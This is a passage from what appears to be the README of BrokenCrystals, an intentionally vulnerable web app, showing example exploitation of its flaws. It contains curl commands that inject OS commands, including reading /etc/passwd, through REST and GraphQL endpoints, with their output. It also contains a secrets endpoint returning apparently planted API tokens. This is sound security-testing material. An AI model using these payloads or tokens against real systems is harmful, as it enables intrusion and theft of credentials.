       To demonstrate an SSTI attack, you can use the following `curl` command:

      ```bash
      $ curl 'https://brokencrystals.com/api/spawn?command=uname%20-a'
      ```

      The response includes a result of code execution:

      ```
      Linux brokencrystals-5b9b6759cb-66vvt 6.1.115-126.197.amzn2023.x86_64 #1 SMP PREEMPT_DYNAMIC Tue Nov  5 17:36:57 UTC 2024 x86_64 Linux
      ```

    </details>

    <details>
      <summary>Another Example Exploitation on graphQL</summary>

      To demonstrate another SSTI attack, you can use the following `curl` command:

      ```bash
      curl -i -X POST -H Content-Type:application/json -H Accept:application/json 'https://brokencrystals.com/graphql' -d '{"query":"query ($getCommandResult_command: String!) { getCommandResult (command: $getCommandResult_command) }" ,"variables":{"getCommandResult_command":"/bin/cat /etc/passwd "}}'
      ```

      The response includes a result of code execution:

      ```
      {"data":{"getCommandResult":"root:x:0:0:root:/root:/bin/sh\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nnode:x:1000:1000::/home/node:/bin/sh\n"}}%
      ```

    </details>

- **Secret Tokens** - The /api/secrets and /api/config contains many secret tokens returns the server's configuration, including a various of API keys.
    <details>
      <summary>Example Exploitation of Secret Tokens</summary>

      To demonstrate the exposure of secret tokens, you can use the following `curl` commands:

        ```bash
        curl https://brokencrystals.com/api/secrets
        ```

        Response:

        ```json
        {
          "codeclimate": "CODECLIMATE_REPO_TOKEN=62864c476ade6ab9d10d0ce0901ae2c211924852a28c5f960ae5165c1fdfec73",
          "facebook": "EAACEdEose0cBAHyDF5HI5o2auPWv3lPP3zNYuWWpjMrSaIhtSvX73lsLOcas5k8GhC5HgOXnbF3rXRTczOpsbNb54CQL8LcQEMhZAWAJzI0AzmL23hZByFAia5avB6Q4Xv4u2QVoAdH0mcJhYTFRpyJKIAyDKUEBzz0GgZDZD",
          "google_b64": "QUl6YhT6QXlEQnbTr2dSdEI1W7yL2mFCX3c4PPP5NlpkWE65NkZV",
          "google_oauth": "188968487735-c7hh7k87juef6vv84697sinju2bet7gn.apps.googleusercontent.com",
          "google_oauth_token": "ya29.a0TgU6SMDItdQQ9J7j3FVgJuByTTevl0FThTEkBs4pA4-9tFREyf2cfcL-_JU6Trg1O0NWwQKie4uGTrs35kmKlxohWgcAl8cg9DTxRx-UXFS-S1VYPLVtQLGYyNTfGp054Ad3ej73-FIHz3RZY43lcKSorbZEY4BI",
          "heroku": "herokudev.staging.endosome.975138 pid=48751 request_id=0e9a8698-a4d2-4925-a1a5-113234af5f60",
          "hockey_app": "HockeySDK: 203d3af93f4a218bfb528de08ae5d30ff65e1cf",
          "outlook": "https://outlook.office.com/webhook/7dd49fc6-1975-443d-806c-08ebe8f81146@a532313f-11ec-43a2-9a7a-d2e27f4f3478/IncomingWebhook/8436f62b50ab41b3b93ba1c0a50a0b88/eff4cd58-1bb8-4899-94de-795f656b4a18",